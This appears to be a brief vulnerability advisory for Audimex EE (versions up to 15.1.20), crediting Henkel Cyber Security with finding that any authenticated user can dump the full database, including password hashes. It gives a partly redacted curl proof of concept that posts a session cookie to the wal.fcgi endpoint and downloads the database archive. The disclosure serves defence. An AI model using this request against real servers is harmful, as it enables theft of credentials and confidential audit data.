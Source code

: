# Audimex EE

**This vulnerability was discovered by Henkel Cyber Security team**

## Versions affected: <= 15.1.20

## Description:

Analyzing the offline client code, it was identified that it is possible for any user (with any privilege) of Audimex to dump the whole Audimex database. This gives visibility upon password hashes of any user, ongoing audit data and more.

## POC

Replace the cookie placeholder with the cookie of any valid user:

```bash
curl -s -k -X $'POST' -b $'wal_sid_axdx_1={COOKIE_OF_ANY_VALID_USER}' [REDACTED FOR THE MOMENT] -F "sid=axdx_1" $'https://{HOST}/app/cgi-bin/wal.fcgi' -o db.zip && 7z -y x db.zip
```
